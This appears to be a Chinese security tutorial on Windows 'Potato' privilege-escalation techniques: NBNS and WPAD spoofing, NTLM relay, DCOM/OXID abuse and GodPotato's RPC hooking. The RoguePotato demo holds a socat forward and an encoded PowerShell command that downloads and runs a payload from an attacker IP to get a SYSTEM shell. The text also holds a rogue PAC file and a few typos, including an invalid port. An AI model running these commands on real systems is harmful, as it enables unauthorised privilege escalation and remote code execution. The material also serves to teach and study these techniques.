










# Hot Potato

## 原理

### 1.NBNS欺骗

#### 什么是NBNS

**NetBIOS**：是一种早期用于局域网内的应用程序编程接口（API），允许应用程序在局域网内进行通信

**NBNS（NetBIOS Name Service）**：它是NetBIOS中用于解析网络中计算机名字到对应IP地址的服务


#### NBNS欺骗原理

在一个标准的网络环境中，当一台计算机需要找到另一台计算机的IP地址时，它会向整个网络发送一个NBNS请求，询问拥有特定NetBIOS名字的计算机的IP地址

攻击者监听这些NBNS请求，并快速回应假的响应信息。这个响应会声称攻击者的机器就是请求中提到的目标机器，并给出一个由攻击者控制的IP地址

当受害者机器接收到这个假的响应后，它会错误地认为攻击者的机器就是它要找的目标机器，并开始向攻击者的机器发送原本应发给真正目标机器的数据

虽然嗅探网络流量需要本地管理员权限，但对于NBNS欺骗而言，只需知道目标主机将发送的NBNS查询的主机名即可

若目标网络中存在DNS记录，我们可以使用UDP端口耗尽技术来导致DNS查询失败，DNS查找失败时，系统则会退回到使用NBNS

那么UDP耗尽技术是如何实现的呢？首先需先理解，UDP是一个无连接的网络传输协议，这也代表着，攻击者可以在目标系统创建大量的UDP连接，从而消耗系统可用的UDP端口资源


### 2.伪造WPAD服务器

#### 什么是WPAD服务器

WPAD（Web Proxy Auto-Discovery Protocol）是一种网络协议，用于帮助用户的计算机自动发现发现网络中的代理服务器配置

WPAD服务器指的是部署了WPAD服务的服务器，在网络中，负责提供PAC(Proxy Auto-Configuration)文件，这是一个包含JavaScript代码的文件，它会指导客户端(计算机)如何自动发现并配置代理设置


#### WPAD的工作原理

计算机首先尝试通过DHCP或DNS查询来找到WPAD服务器的地址，此地址通常是一个提供PAC文件的url，比如`http://wpad/wpad.dat`

一旦WPAD服务器被定位，计算机会尝试从该服务器下载一个PAC文件，用于指示浏览器何时以及如何使用代理服务器


#### 如何伪造

在Windows环境中，Internet Explorer和某些Windows服务（如Windows更新）默认会尝试访问`http://wpad/wpad.dat`来自动检测网络代理设置

在许多网络中，主机名`wpad`可能不存在于DNS名称服务器中，这意味着尝试访问`http://wpad/wpad.dat`可能无法在正常情况下找到有效的服务器。此时，攻击者可以利用NBNS欺骗来实现在本地网络中伪造对wpad主机名的响应，例如使目标主机相信本机`127.0.0.1`就是WPAD服务器

随后攻击者在本地机器上运行一个HTTP服务器来响应`http://wpad/wpad.dat`的请求，当收到请求时，服务器提供一个攻击者伪造的PAC文件，该文件指示将所有HTTP流量重定向到本机的80端口

```
FindProxyForURL(url,host){
if (dnsDomainIs(host, "localhost")) return "DIRECT";
return "PROXY 127.0.0.1:80";}
```


### 3.NTLM中继攻击

当攻击者可以控制目标系统的HTTP流量后，将HTTP流量重定向到要求NTLM身份验证的地方(url)。

当受害者的计算机尝试访问攻击者控制的HTTP服务时，该服务响应一个要求NTLM认证的`401 Unauthorized`消息，这通常包含一个`WWW-Authenticate: NTLM`头，提示客户端开始NTLM握手

客户端(受害机)响应这个挑战，并发送一个包含NTLM凭据的HTTP请求过去，攻击者接收到这些NTLM凭据后不会对其进行验证，而是将这些凭据中继(转发)到一个SMB服务

如果凭据有效，攻击者就能通过SMB认证，随后利用SMB协议提供的功能在远程系统上执行命令；如果这些HTTP请求来自高权限账户（如Windows更新服务），则该命令将以`NT AUTHORITY\SYSTEM`权限运行，从而实现提权


### 流程总结图




## 操作演示


# RottenPotato

## 使用条件

RottenPotato的使用于微软的安全更新[MS16-075](https://docs.microsoft.com/zh-cn/security-updates/securitybulletins/2016/ms16-075)有直接的关系。

MS16-075 是微软发布的一个安全补丁，旨在解决Windows中的特定权限提升漏洞。这个更新主要是为了阻止同一协议内使用已进行中的NTLM认证挑战，这意味着例如从一台主机到其自身的SMB→SMB NTLM中继将不再起作用

"Rotten Potato" 利用了MS16-075之前存在的漏洞。在MS16-075发布之前，攻击者可以通过操纵NTLM认证过程（尤其是在RPC和其他服务之间）来提升权限。但是，随着MS16-075的发布，这种攻击方式在更新后的系统上不再有效

简单来说，此技术只适用于Windows 10 1809 和 Windows Server 2019之前的版本

​		

## 基本原理

RottenPotato是一种特殊的Windows权限提升技术，它不需要等待WindowsDefender的自动更新，而是可以立即生效。其核心原理主要涉及Windows的RPC(远程过程调用)和NTLM认证的特性


### 1.欺骗RPC

RPC是一种运行程序间通信的服务，通常用于网络上不同计算机间的软件通信。

RottenPotato利用DCOM服务来触发system权限的NTLM认证流程，这里通过特定的API调用来实现的，比如`CoGetInstanceFromIStorage`，在这个调用中指定了代理服务器的IP地址和端口，而这个代理服务器是由RottenPotato设计的，目的是诱使DCOM服务向这个代理发起NTLM协商数据包


### 2.发起NTLM身份验证

代理服务器将这个NTLM 协商数据包转发给本地系统上运行的 RPC 服务(135端口)，引起一个新的认证挑战，然后RPC服务发送一个NTLM挑战数据包给代理服务器


### 3.处理数据包

至此RottenPotato已经捕获了两种NTLM认证数据包，分别是协商数据包和挑战数据包

RottenPotato利用`AcceptSecurityContext`函数来对挑战数据包进行处理，生成一个新的NTLM响应，以此来模拟SYSTEM账号的身份


### 4.模拟高权限身份

代理服务器将新的NTLM响应发送给RPC服务，若服务器接受这个认证响应并完成认证过程，那么RottenPotato即可成功模拟 `SYSTEM` 账户


## 实操演示

potato下载地址：https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-075


# Juicy Potato

## 简介

Juicy Potato是Rotten Potato攻击的一种变体，它允许更灵活的利用Windows中的特定漏洞，特别是在BITS服务被禁用或特定端口被占用的情况下。Juicy Potato 利用了系统中的特定CLSID（类标识符），这些CLSID代表了能够以提升的权限实例化的COM对象。通过操纵这些COM对象，Juicy Potato 能够实现权限提升，从服务账户提升到SYSTEM级别的权限


## 使用条件

使用JuicyPotato，要求当前用户拥有`SeImpersonate` 或 `SeAssignPrimaryToken`权限，通常本地管理员组成员、本地服务账户和服务控制管理器启动的服务拥有这些权限


## 工作原理

### 1.了解DCOM的角色

DCOM(支持远程通信)是COM的一个扩展，支持远程通信。

当DCOM以服务地形式进行远程连接时，如访问BITS这类Windows系统服务，那么需要DCOM拥有与BITS服务同级别的权限，即SYSTEM权限


### 2.加载COM对象

Juicy Potato会在指定的IP和端口加载COM对象(COM对象是Windows中用于封装功能的软件组件)，通过加载特定的COM对象，Juicy Potato试图模拟一种正常的、需要高权限的操作

当JuicyPotato尝试以普通用户权限加载需要System权限的COM对象时，会触发system权限的NTLM认证，由于权限不足，这种认证是无法成功的，但是此时可以拦截到system权限的NTLM认证数据包


### 3.重放NTLM认证

接着，Juicy Potato针对本地任意端口发起普通权限的NTLM认证，由于此认证不需要太高权限，因此能够认证成功，Juicy Potato拦截此NTLM认证数据包

此时Juicy Potato已经拦截了两个不同来源的NTLM认证数据包。一个数据包来自于具有较低权限的用户（比如普通用户），另一个来自于具有System权限的服务

在拦截这些数据包之后，Juicy Potato会修改其中的某些数据。这是为了欺骗系统，让它认为发起请求的不是低权限用户，而是具有System权限的服务或进程

通过重放修改后的 NTLM 认证请求，Juicy Potato尝试以 SYSTEM权限身份通过认证，并获取到一个具有SYSTEM权限的令牌


### 4.创建新进程

当获取到一个SYSTEM权限的令牌后，可以根据进程所拥有的权限来选择不同的API来创建一个具有高权限的进程，以下有两种方式：

- **SeImpersonate**权限：使用`CreateProcessWithTokenW` 函数来创建进程
- **SeAssignPrimaryToken**权限：使用`CreateProcessAsUser`函数来创建进程


## 与RottenPotato的区别

### 1.DCOM的利用

RottenPotato利用特定的DCOM API调用(如`CoGetInstanceFromIStorage`)来触发以 `SYSTEM` 权限的 NTLM 认证流程

JuicyPotato同样利用DCOM对象和NTLM认证机制，但它提供了更多的COM对象选择


### 2.NTLM认证流程

这两款工具都是通过拦截、重定向、修改NTLM认证过程中的数据包，最终实现模拟SYSTEM账户的目的

RottenPotato针对135端口(RPC)服务来发起NTLM认证，而JuicyPotato允许选择本地的任意端口来发起 NTLM 认证，从而使得它能够适应更多样的攻击场景


## 参考文章

- [Windows本地提权工具Juicy Potato测试分析](https://3gstudent.github.io/backup-3gstudent.github.io/Windows%E6%9C%AC%E5%9C%B0%E6%8F%90%E6%9D%83%E5%B7%A5%E5%85%B7Juicy-Potato%E6%B5%8B%E8%AF%95%E5%88%86%E6%9E%90/)
- https://book.hacktricks.xyz/welcome/readme
- https://securityonline.info/rottenpotato-privilege-escalation/


# RoguePotato

## 简介

RoguePotato是在早期的RottenPotato和JuicyPotato方法基础上发展起来的，特别针对JuicyPotato无法工作的环境，例如WindowsServer2019和WindowsBuild1809之后的版本

微软对DCOM解析器进行了安全更新，限制了DCOM服务与本地RPC进行通信，这是为了阻止像 RottenPotato 或 JuicyPotato 这样的攻击

为了绕过这个限制，RoguePotato使用其他远程主机的135端口做转发，通过远程主机将数据传到本地伪造的 RPC 服务上


## 前置知识

### 什么是RPCSS

RPCSS 服务是 COM 和 DCOM 服务器的服务控制管理器。它执行 COM 和 DCOM 服务器的对象激活请求、对象导出程序解析和分布式垃圾回收。



​	

### 什么是OXID

OXID（对象导出器标识符）是一个用于标识网络上DCOM对象的唯一数字

当一个客户端应用程序想要访问一个远程COM对象时，它需要使用OXID查询来获取对象所在服务器的信息（绑定信息），随即RPC服务会调用`ResolveOxid2`函数来解析OXID的查询请求，并返回绑定信息


## 实现原理

### 1.操纵DCOM激活服务

RoguePotato首先选择一个CLSID(类标识符)来发起一个DCOM对象的激活请求，这个请求的目的是让系统创建或激活一个指定的COM对象。

创建对象后，将其初始化为一个已Marshalling（Marshalling表示"封送"，是一种打包对象数据的过程，使得对象可以跨进程或网络传输传输）的`IStorage`对象。

在`IStorage`对象中，指定了远程OXID解析器的字符串绑定，这个绑定将指向我们远程的恶意oxid解析器的IP地址。

当使用`CoGetInstanceFromIStorage`函数对`IStorage`对象进行UnMarshall（解封）时, 会触发DCOM激活服务（RPCSS中的一部分）向oxid解析器发送一个oxid解析请求, 以此定位对象的绑定信息


### 2.伪造ResolveOxid2

远程主机在135端口收到oxid解析请求后, 会转发回运行Rogue Oxid Resolver的本地主机, 然后编写恶意的ResolveOxid2函数的代码以此返回一个被篡改后的响应

此响应包含的绑定信息为: `ncacn_np:localhost/pipe/roguepotato[\pipe\epmapper]`

在此绑定信息中, RoguePotato特意使系统使用`RPC over SMB`(ncacn_np), 而不是默认的`RPC over TCP`(ncacn_ip_tcp)，这是因为SMB协议允许通过命名管道进行通信，而命名管道可以用于接下来的权限模拟操作

导致的结果是DCOM激活器将使用命名管道`\pipe\roguepotato\pipe\epmapper` 而不是默认的命名管道`\pipe\epmapper`来定位端点信息

> 当一个客户端要调用一个远程COM对象时，它需要通过`ResolveOxid2`函数来获取对象的绑定信息， 获取到的绑定信息通常会指向RPC端点映射器(\pipe\epmapper)，以便客户端可以进一步查询服务的端点信息


### 3.身份模拟

RoguePotato在目标系统上创建了一个特殊的命名管道，其完整名称为`\\.\pipe\roguepotato\pipe\epmapper`，以此来等待RPCSS的连接

当RPCSS连接后，则调用`ImpersionateNamedPipeClient`函数模拟RPCSS服务的安全上下文，这样就能以相同的权限执行代码


### 4.令牌窃取与进程创建

当攻击者的线程成功使用`RpcImpersonateClient` 模拟高权限身份后，通过枚举系统的所有进程句柄来找到当前进程的句柄，然后筛选出进程中拥有SYSTEM权限的令牌，最终使用`CreateProcessAsUser`或 `CreateProcessWithToken`函数来创建高权限的进程


## 实操演示

首先在远程主机上使用`socat`命令，将其135端口监听到的数据转发至目标主机的9999端口

```
socat tcp-listen:135,reuseaddr,fork tcp:192.168.47.177:99999
```




使用`PSExec.exe`来创建一个本地服务用户的cmd，此用户具有`SeimpersonatePrivilege`权限

```
PSExec64.exe -i -u "nt authority\local service" cmd.exe
```

	


执行`RoguePotato.exe`来尝试以高权限加载远程Powershell马，但是失败了，提示"Named pipe didn't received any connect request"，其意思是命名管道没有收到DCOM服务的请求，这可能是防火墙导致的

```
RoguePotato.exe -r 192.168.47.188 -e "cmd.exe /c powershell -EncodedCommand SQBFAFgAKAAgAEkAVwBSACAAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4ANAA3AC4AMQA4ADgAOgA4ADAALwBhACAALQBVAHMAZQBCAGEAcwBpAGMAUABhAHIAcwBpAG4AZwApAAoA" -l 9999
```




分析目标主机的系统日志，可以发现 `RoguePotato.exe` 尝试向远程主机发送oxid解析请求时被拦截了

	


将防火墙关闭后再来提权，提权成功，CS上线system权限的shell




# GodPotato

## 使用条件

适用于从 Windows Server 2012 到 Windows Server 2022，以及 Windows 8 到 Windows 11

需要执行用户拥有`ImpersonatePrivilege`权限


## 实操演示

选择适合目标系统的.NET版本号的GodPotato来执行提权操作

```
GodPotato-NET35.exe -cmd "cmd /c whoami"
```




## 源码分析

### 1.初始化

在主程序文件中，首先创建了一个`GodPotatoContext`类对象，此类是整个GodPotato项目的核心

在`GodPotatoContext`类中，其构造函数接收了`TextWriter` 和 `string` 类型的参数，分别用于日志输出和管道名称的定义，然后调用`InitContext`方法来进行初始化操作

```cpp
public GodPotatoContext(TextWriter consoleWriter, string pipeName) {
    this.PipeName = pipeName;
    this.newOrcbRPC = new NewOrcbRPC(this);
    this.ConsoleWriter = consoleWriter;
    InitContext();  
}
```


`InitContext`函数首先定位当前进程加载的`combase.dll`模块（`combase.dll` 是Windows COM基础架构的一部分，通常用于COM相关的低级操作），然后通过一系列操作来寻找到与RPC相关的接口结构以及解析`MIDL`(Microsoft Interface Definition Language)信息，以下是三个RPC接口结构的简要描述：

- **RPC_SERVER_INTERFACE**：用于描述RPC服务器的接口，包含有关接口的元数据，例如接口的`UUID`（通用唯一识别码）和版本信息
- **RPC_DISPATCH_TABLE**：用于表示RPC的调度表，里面包含一组函数指针，每个指针指向特定RPC操作的函数，此表用来定位和调用适当的RPC函数来响应`RPCSS`请求
- **MIDL_SERVER_INFO**：`MIDL`用于定义RPC接口和数据结构，它包含了`DispatchTable`（实际函数调用表）、`FmtStringOffset`（格式字符串偏移表）和 `ProcString`（格式字符串)，其中`ProcString`是包含了所有RPC函数的格式字符串，这些格式字符串定义了每个RPC函数的参数类型、顺序以及其他属性，而格式字符串偏移表的每个元素就是指向`procString`中特定RPC函数的格式字符串的起始偏移量

```cpp
if (processModule.ModuleName != null && processModule.ModuleName.ToLower() == "combase.dll"){
	....
	....
    
    // RPC相关的接口结构
	RPC_SERVER_INTERFACE rpcServerInterface = (RPC_SERVER_INTERFACE)Marshal.PtrToStructure(new IntPtr(processModule.BaseAddress.ToInt64() + s[0]), typeof(RPC_SERVER_INTERFACE));
    RPC_DISPATCH_TABLE rpcDispatchTable = (RPC_DISPATCH_TABLE)Marshal.PtrToStructure(rpcServerInterface.DispatchTable, typeof(RPC_DISPATCH_TABLE));
    MIDL_SERVER_INFO midlServerInfo = (MIDL_SERVER_INFO)Marshal.PtrToStructure(rpcServerInterface.InterpreterInfo, typeof(MIDL_SERVER_INFO));
    
    // 解析MIDL
    DispatchTablePtr = midlServerInfo.DispatchTable;
    IntPtr fmtStringOffsetTablePtr = midlServerInfo.FmtStringOffset;
    procString = midlServerInfo.ProcString;
}
```


分别读取RPC调度表(`dispatchTable`)和格式字符串偏移表(`fmtStringOffsetTable`)，上述也说了，格式字符串偏移表用于存储RPC函数的格式字符串的偏移量

```cpp
dispatchTable = new IntPtr[rpcDispatchTable.DispatchTableCount];
fmtStringOffsetTable = new short[rpcDispatchTable.DispatchTableCount];

// 读取RPC调度表
for (int i = 0; i < dispatchTable.Length; i++) {
    dispatchTable[i] = Marshal.ReadIntPtr(DispatchTablePtr, i * IntPtr.Size);
}

// 读取格式字符串偏移表
for (int i = 0; i < fmtStringOffsetTable.Length; i++) {
    fmtStringOffsetTable[i] = Marshal.ReadInt16(fmtStringOffsetTablePtr, i * Marshal.SizeOf(typeof(short)));
}
```


`fmtStringOffsetTable` 数组的第一个元素表示指向第一个RPC函数格式字符串在 `procString` 中的起始偏移量，然后在此偏移量的基础上+19，这是因为此位置存储着RPC函数的参数数量，所以`UseProtseqFunctionParamCount`变量表示RPC函数的参数数量

```cpp
UseProtseqFunctionParamCount = Marshal.ReadByte(procString, fmtStringOffsetTable[0] + 19);
```


### 2.RPC HOOK

通过将指向RPC调度表的指针修改为自定义函数的指针，以此来实现对RPC函数的HOOK(IAT HOOK)

此处使用到了C#中的委托概念，委托可以引用一个或多个函数，有点类似于C/C++中的函数指针，但是这比函数指针更加灵活。

`GetFunctionPointerForDelegate`函数用于将委托转换为函数指针，`useProtseqDelegate`是一个委托变量

```cpp
public void HookRPC()
        {
            uint old;
            VirtualProtect(DispatchTablePtr, (uint)(IntPtr.Size * dispatchTable.Length), 0x04, out old);
            Marshal.WriteIntPtr(DispatchTablePtr, Marshal.GetFunctionPointerForDelegate(useProtseqDelegate));
            IsHook = true;
        }
```


上述讲过了`UseProtseqFunctionParamCount`变量代表RPC函数的参数数量，根据RPC参数数量来匹配一个适合的委托

```cpp
// Code obfuscation support
else if (UseProtseqFunctionParamCount == 4)
{
delegateFun4 df4 = newOrcbRPC.fun4;
useProtseqDelegate = df4;
}
.....
.....
else {
throw new Exception($"UseProtseqFunctionParamCount == ${UseProtseqFunctionParamCount}");

}
```


在`GodPotatoContext.cs`的`NewOrcbRPC`类中定义了hook后的函数，即`fun`函数

`fun`函数首先定义了一个字符串数组`endpoints`，用于重定向命名管道的通信，然后将此字符串数组写入为进程新分配的内存中

